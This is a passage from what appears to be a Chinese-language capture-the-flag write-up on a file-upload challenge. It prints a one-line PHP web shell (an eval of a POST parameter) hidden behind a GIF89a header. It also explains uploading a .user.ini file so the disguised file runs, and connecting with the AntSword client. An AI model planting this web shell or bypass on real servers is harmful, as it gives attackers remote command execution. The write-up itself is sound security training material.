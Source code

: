 上传成功：

```
GIF89a
<script language="php">eval($_POST['cmd']);</script>
```

![image-20230901144954034](CTF.assets/image-20230901144954034.png)

到这一步，虽然已经成功上传了木马上去，但是由于后缀不是PHP文件，所以无法执行。那么这里还需要上传一个`.user.ini`文件上去（依旧注意要修改文件类型和添加GIF89a头）

![image-20230901145414887](CTF.assets/image-20230901145414887.png)

最后使用蚁剑连接即可

**顺序应该是：先上传`.user.ini`再上传木马文件**

## [BSidesCF 2020]Had a bad day

进来读源码，发现使用Form表单的GET提交参数，来确定前端要返回的图片

<img src="CTF.assets/image-20230901172246997.png" alt="image-20230901172246997" style="zoom:50%;" />
